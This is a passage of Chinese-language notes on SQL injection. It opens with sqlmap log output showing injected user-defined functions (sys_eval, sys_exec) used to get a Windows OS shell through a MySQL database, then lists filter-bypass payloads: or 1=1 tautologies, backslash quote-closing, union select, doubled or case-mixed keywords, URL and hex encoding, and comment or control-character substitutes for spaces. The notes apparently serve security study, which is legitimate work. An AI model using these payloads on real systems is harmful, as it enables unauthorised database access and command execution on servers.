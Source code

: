         [11:41:27] [WARNING] (remote) OperationalError: (MySQLdb.OperationalError) (1305, 'FUNCTION jsh_erp.sys_exec does not exist')
        [11:41:27] [INFO] creating UDF 'sys_eval' from the binary UDF file
        [11:41:27] [WARNING] (remote) OperationalError: (MySQLdb.OperationalError) (1305, 'FUNCTION jsh_erp.sys_eval does not exist')
        [11:41:27] [WARNING] (remote) OperationalError: (MySQLdb.OperationalError) (1051, "Unknown table 'jsh_erp.sqlmapoutput'")
        [11:41:27] [INFO] going to use injected user-defined functions 'sys_eval' and 'sys_exec' for operating system command execution
        [11:41:27] [INFO] calling Windows OS shell. To quit type 'x' or 'q' and press ENTER
        ```

## 绕过简单过滤/转义

- sql中运算优先级and高于or和^	,所以`username=’admin’ and password=’’or 1=1`

- **在输入用户名那里输入关键字看哪些被过滤了**。如果被过滤字符串可以**双写绕过**。

- 过滤引号：
    - 利用name和passwd同时存在where中  账号输入 1\ 密码输入or 1=1 --+ 后拼接出来的语句是`select      from xxx where id='1\' and pw='or 1=1--+'  `这样引号就闭合了

- 过滤注释：
    - 当我们在用户名字前面输入%23 # --+而仍然是以该用户登陆，则过滤了# --+
    - 使用` ' or '1'='1 `或者and来闭合后面的引号,之后的注入，oder  by不能用，但是union select可以用。`id=-1' union     select 1,2,3 and '1'='1`
    - 使用除法 比如SQL语句`id='1'/1=(0)/'1'='1' ` 先算除法后等号，从左向右运算。‘1’被当成数字1。id=1/1=(0)/1=1。id=1=0=1。如果第一条数据id为1 则查询结果为0，进而查询第二条会返回1则会爆出数据，后续数据通过在等号之间搞个双注入爆出。


- **过滤了or和and：**

    - **可以用数学符号** **||和&&（要编码）**
    - 双写oorr     anandd绕过
    - **大小写变形：**如：Or、OR、oR等

    - url编码：%6fr  %6f就是o的url编码，%26（&的url编码）。
    - 添加注释` /**/： or/**/   select/**/ from/**/`

    - **过滤了or和and的盲注：**
    - **这样order by也不能用了，可以试试group by**

- **过滤关键字select from limit之类的：**


    - 最常用的绕过方法就是用`/**/，<>`，分割关键字：`sel<>ect        sel/**/ect`

- 双写过滤：selselectect
  - 大小写过滤：Select
  - 编码过滤：url编码绕过      16进制编码绕过 ASCII编码绕过

- **过滤了空格**：可以利用`/**/ /*1*/`当成空格

    - 双空格
    - 用括号绕过
    - 用回车代替 ,ascii码为chr(13)chr(10)，url编码为%0d%0a
    - **字节的伎俩看看能不能代替空格** **用其他字符绕过** **，用以下代替中间的空格** %09 TAB键（水平）%0a 新建一行%0c 新的一页%0d return功能%0b TAB键（垂直）%a0 空格
